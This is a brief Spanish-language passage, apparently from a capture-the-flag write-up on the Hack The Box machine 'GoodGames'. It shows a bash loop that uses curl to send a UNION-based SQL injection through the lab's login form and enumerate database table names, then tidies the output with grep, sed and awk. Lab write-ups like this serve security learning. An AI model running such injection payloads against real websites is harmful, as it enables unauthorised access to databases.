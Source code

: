 Aun así lo vemos bastante feo, aunque nos saca todas las bases de datos:

![image](../zimages/Pasted_image_20241031151409.png)

Como se ve muy feo, lo podemos mejora con este comando, donde básicamente usamos expresiones regulares para ordenar y mostrar el resultado como queremos:
```bash
for i in $(seq 0 100); do echo "[+] Tabla número $i = $(curl -s -X POST http://goodgames.htb/login --data "email=' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=fadsf" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")";done
```

Y así es como se vería:
